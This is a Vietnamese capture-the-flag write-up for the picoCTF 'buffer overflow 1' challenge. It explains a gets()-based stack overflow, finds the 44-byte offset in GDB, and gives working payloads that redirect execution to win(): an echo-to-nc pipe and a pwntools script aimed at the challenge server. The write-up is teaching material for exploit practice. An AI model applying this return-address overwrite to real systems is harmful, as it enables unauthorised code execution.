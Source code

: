 # buffer overflow 1

- **Phân loại:** Pwnable
- **Độ khó:** Easy
- Tool: GDB-peda
- Kiến thức: stack, thanh ghi

## 1. Phân tích bài

1. Source

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

b) Nhận xét

- Chúng ta có thể dễ dàng thấy lỗi nằm ở hàm gets, hàm này không kiểm tra số lượng ký tự nhập vào dẫn đến lỗi tràn bộ đệm

## 2. Ý tưởng khai thác

- Chỉ khi chạy hàm win thì flag mới được in ra, vậy chúng ta phải gọi được hàm win. Ở đây hàm win không được gọi đến nhưng chúng ta có thể gọi đến nó bằng cách ghi đè địa chỉ trở về (return address) vào stack tại ô nhớ ghi địa chỉ trả về. Mỗi khi chương trình chạy thì hệ điều hành sẽ cung cấp cho chương trình một vùng nhớ trên RAM dùng để lưu trữ các biến nội bộ, các giá trị trở về (giá trị của EIP), giá trị các thanh ghi,… gọi là vùng nhớ stack. 
- Thanh ghi EIP (trong kiến trúc 16 bit gọi là thanh ghi IP, trong kiến trúc 32 bit gọi là EIP, trong kiến trúc 64 bit gọi là RIP) là thanh ghi con trỏ lệnh, nó dùng để lưu địa chỉ của câu lệnh tiếp theo được thực hiện.
- Ở bài này, mô hình stack (tại hàm vuln) trông như sau:

![image.png](image.png)

- Stack ghi từ địa chỉ thấp lên địa chỉ cao (ở đây là từ dưới lên trên) nên ta sẽ ghi 32 ký tự để ghi đè biến buf + 4 ký tự ghi đè EBP. 36 ký tự này gọi là padding. Sau đó ta cần ghi đè địa chỉ của return address bằng địa chỉ của hàm win
- Trên lý thuyết là vậy nhưng thật ra padding sẽ khác (do sự căn chỉnh stack, do compiler,...) vì vậy thay vì tính bằng tay thì ta nên dùng công cụ. Ở đây mình dùng https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html


## 3. Tiến hành khai thác

1. Bước 1: Tìm padding bằng công cụ 
- Đầu tiên ta mở chương trình bằng GDB

![image.png](image%202.png)

- Generate ra 100 ký tự rồi chạy trong GDB bằng câu lệnh

```cpp
run < <(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
```

![image.png](image%203.png)

- Quan sát stack ta thấy EIP ghi “4Ab5”, ta check trên công cụ thì thấy offset là 44, vậy khoảng cách từ biến buf đến thanh ghi EIP thực chất phải là 44 chứ không phải là 36 như ta đã tính tay

![image.png](image%204.png)

b) Bước 2: Tìm địa chỉ của hàm win

- Dùng câu lệnh “info functions” để xem địa chỉ các hàm:

![image.png](image%205.png)

- Ở đây ta tìm được địa chỉ của hàm win là 0x080491f6. Theo kiến trúc little-edian thì địa chỉ đó sẽ được ghi trong stack là \xf6\x91\x04\x08
- Vậy payload cần dùng là: 44 ký tự padding +  “\xf6\x91\x04\x08”

c) Bước 3: Viết payload

- Chúng ta có 2 cách để truyền payload bao gồm truyền bằng ống (pipe) và truyền bằng file thực thi
- Cách 1: truyền bằng pipe:
  + Payload:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab\xf6\x91\x04\x08
  + Câu lệnh truyền payload bằng pipe:

```cpp
(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab\xf6\x91\x04\x08"; cat) | nc saturn.picoctf.net 63395
```

![image.png](image%206.png)

- Cách 2: dùng file thực thi
  + Ta tạo file python thực thi:

```cpp
from pwn import *

p=remote('saturn.picoctf.net', 63395)
payload = b'a'*44 + p32(0x080491f6)

p.sendline(payload)
p.interactive()
```

![image.png](image%207.png)

## 4. Kết luận

- Ta chỉ nên vẽ stack để tham khảo, không nên tính padding bằng stack mà nên dùng tool
- Phương pháp chúng ta vừa dùng được gọi là kỹ thuật quay về phân vùng .text (return to .text). Một tập tin thực thi theo định dạng ELF có nhiều phân vùng. Phân vùng .text là phân vùng chứa tất cả các mã lệnh đã được trình biên dịch tạo ra, và sẽ được bộ vi xử lý thực thi. Kỹ thuật này khá quan trọng vì đôi khi mã lệnh mà chúng ta cần thực thi đã có sẵn trong chương trình nên chúng ta chỉ cần tìm ra địa chỉ các mã lệnh đó là đã có thể thực hiện thành công việc tận dụng lỗi
